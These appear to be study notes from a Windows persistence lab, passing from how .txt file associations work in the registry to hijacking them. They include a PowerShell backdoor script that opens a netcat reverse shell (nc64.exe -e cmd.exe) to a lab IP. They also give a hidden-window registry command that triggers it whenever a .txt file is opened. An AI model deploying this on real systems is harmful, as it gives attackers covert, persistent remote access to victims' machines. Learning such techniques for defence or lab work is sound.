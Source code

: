 - We can then ***search for a subkey for the corresponding ProgID*** (also under `HKLM\Software\Classes\`), in this case, `txtfile` , where we will `find a reference` to the program in charge of handling `.txt` files.
- Most `ProgID` entries will have a subkey under `shell\open\command` where the default command to be run for files with that extension is specified:

![](/assets/img/Pasted image 20230107182438.png)

	- The value under the 'Data' column is the binary that opens this specific file type, which in this case is `.txt` files.
	- Basically, ANY '.txt' files will be opened using "Notepad.exe" by default unless otherwise specified by its user.

- In this case, when you try to open a `.txt` file, the system will execute "`%SystemRoot%\system32\NOTEPAD.exe %1`"

		- Breakdown:
		- '%1' : represents the name of the opened file.

##### Hijacking this file extension (`.txt`):
- Replace the command with a script that executes a backdoor and then opens this file type as usual.

		- Steps: 
		- 1. Let's create a script(ps1) with the following content and save it as 'C:\Windows\backdoor.ps1'

<u>Script Content</u>:

```powershell
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe 10.10.42.135 4448"
C:\Windows\system32\NOTEPAD.EXE $args[0]
```

	Breakdown:
	- the '$args[0]' argument to be passed is the name of the file to be opened as given through '%1'
	- SO basically: > C:\Windows\System32\NOTEPAD.exe <file-name>.txt

<u>Created backdoor</u>:

![](/assets/img/Pasted image 20230107184313.png)

![](/assets/img/Pasted image 20230107184727.png)

##### Changing the registry key to run our backdoor script in a hidden window:
<u>What to replace the 'Data' with</u>:

`powershell -WindowStyle hidden C:\windows\backdoor2.ps1 %1`

![](/assets/img/Pasted image 20230107184802.png)

##### Open any `.txt` file on the victim machine to trigger the backdoor.

<u>User's Point of View</u>:
- Created `.txt` file and opening it:
